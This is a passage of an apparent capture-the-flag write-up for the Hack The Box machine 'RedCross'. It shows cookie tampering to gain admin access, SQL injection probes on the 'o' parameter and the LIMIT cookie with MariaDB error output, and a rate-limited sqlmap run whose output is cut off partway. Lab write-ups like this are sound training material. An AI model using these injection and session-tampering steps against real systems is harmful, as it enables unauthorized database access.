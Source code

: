 Using Firefox's web developer tools, we can simply change the cookies and add all four values into our session, then hit refresh on the main page to log in as admin.

![](/assets/images/htb-writeup-redcross/redcross_admincookie.png)

### SQL injection on the web messaging app

Based on the messages we see, we find the following users created in the database/system:
- admin
- penelope
- charles
- guest

Two parameters are vulnerable to SQL injections:

1. `o` parameter in `GET /?o=2&page=app`

Example:

```
GET /?o=2'&page=app HTTP/1.1

DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' or dest like '2'') LIMIT 10' at line 1
```

2. `LIMIT` cookie in `GET /?o=2&page=app`

Example:

```
Cookie: domain=admin; lang=EN_US; PHPSESSID=8e2u3570ceoa9vk2vofvgnibv3; LIMIT=10'

DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```

Our best bet is to try to exploit the `o` parameter as exploiting the `LIMIT` cookie will be more difficult since we can't do `UNION SELECT` after a `LIMIT` statement. We might be able to do something with `PROCEDURE ANALYSE` but since the box is rated medium/hard, I didn't think this was going to be it.

The first thing we notice with sqlmap is it kills the webserver pretty quickly, so I assumed there is some kind of WAF rate-limiting the connections to the server. If we wait a bit, we are able to access the server again.

To use sqlmap, we will need to change the `delay` parameter to 1 second. It takes a long time but sqlmap eventually find the injection point:

```
root@ragingunicorn:~# sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1 --technique=UE
...
[13:00:14] [INFO] parsing HTTP request from 'login.req'
[13:00:14] [INFO] fetched random HTTP User-Agent header value 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; de) Opera 8.02' from file '/usr/share/sqlmap/txt/user-agents.txt'
[13:00:14] [INFO] testing connection to the target URL
sqlmap got a 301 redirect to 'https://intra.redcross.htb/?o=2&page=app'. Do you want to follow? [Y/n] y
[13:00:17] [INFO] heuristic (basic) test shows that GET parameter 'o' might be injectable (possible DBMS: 'MySQL')
[13:00:18] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
[13:00:18] [INFO] testing for SQL injection on GET parameter 'o'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) value? [Y/n] 
[13:00:19] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:00:20] [WARNING] reflective value(s) found and filtering out
[13:01:17] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
```